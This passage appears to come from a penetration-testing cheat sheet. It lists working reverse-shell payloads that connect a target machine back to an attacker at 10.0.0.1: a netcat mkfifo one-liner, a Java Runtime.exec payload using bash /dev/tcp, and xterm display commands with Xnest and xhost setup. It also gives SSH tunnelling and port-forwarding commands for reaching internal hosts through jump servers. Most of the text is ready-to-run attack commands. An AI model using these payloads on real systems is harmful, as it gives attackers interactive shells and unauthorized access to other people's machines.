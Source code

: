 If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:
```
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

Java
```	
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
```

xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```
	xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```	
	Xnest :1
```

your’ll need to authorise the target to connect to you (command also run on your host):
```	
	xhost +targetip
```

## SSH Tunnels

Send data over ssh to port 9000 on target

```
ssh -L 8090:localhost:9000 james@123.123.123
```


Send data over ssh to port 80 on target through jumphost

```
	ssh -A -t -p22 -L 8800:localhost:8800 james@123.001.123.321 -t ssh -L 8800:localhost:80 james@124.123.122
```


Fwd localhost port 9222 to internal 10.10.15.3:22 through DMZ server1
```
    ssh -p 2222 -i ~/.ssh/keyfile -N -L localhost:9222:10.10.15.3:22 james@server1
```

Using above example, connect to internal server 10.10.15.3
```
    ssh -i ~/.ssh/keyfile -p 9222 james@localhost
```
